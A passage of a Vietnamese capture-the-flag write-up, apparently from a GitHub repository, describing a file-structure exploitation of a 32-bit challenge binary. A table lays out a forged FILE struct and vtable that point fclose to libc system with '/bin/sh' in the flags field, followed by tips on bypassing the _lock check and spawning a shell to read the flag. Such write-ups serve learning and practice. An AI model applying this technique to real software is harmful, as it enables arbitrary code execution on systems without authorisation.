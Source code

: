 ### [2] Fake *vtable FILE STRUCT.

- Mô tả lại `overwrite+fake struct` ở dạng bảng:

|    ADDRESS                     |                 VALUE                         |
| :-------------:                | :-------------------------------------------: |
| 0x0804B260 (name)              | b"A" * 0x20                                   | 
| 0x0804B280 (fp)                | 0x0804B290                                    | 
| 0x0804B284                     | p32(libc.sym["system"]) <=> `*vtable.__fclose`| 
| 0x0804B288                     | p32(0)                                        | 
| 0x0804B28c                     | p32(0)                                        | 
| 0x0804B290                     | b"/bin"       <=> `file.flags`                | 
| 0x0804B294                     | b"/sh\x00"    <=> `file._IO_read_ptr`         |
| 0x0804b298                     | `file._IO_read_end`                           | 
| 0x0804b29c                     | `file._IO_read_base`                          |
| 0x0804b2a0	                 | "\x00\x00\x00\x00" * 14                       |
| 0x0804b2d8                     | 0x804BA00     <=> `file._lock`                |
| 0x0804b2dc	                 | "\x00\x00\x00\x00" * 14                       |
| 0x0804b324                     | p32(0x804B284 - 0x44) <=> `file.*vtable`      |

- Có một vài lưu ý khi ghi đề `*fp` và tạo fake struct `*vtable`:
    * `fp->_lock` sẽ bị kiểm tra, bypass check này chỉ cần ghi đè `fp->_lock` thành 1 địa chỉ có giá trị và có thể tham chiếu được.
    * Giá trị `0x44` là tổng offset của các field trước `_close` trong *vtable.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác.

- Khi lấy được shell trên server file flag thuộc người dùng khác so với file có lỗ hổng nên ta chạy file [get_flag.c](./get_flag.c) để đọc flag.
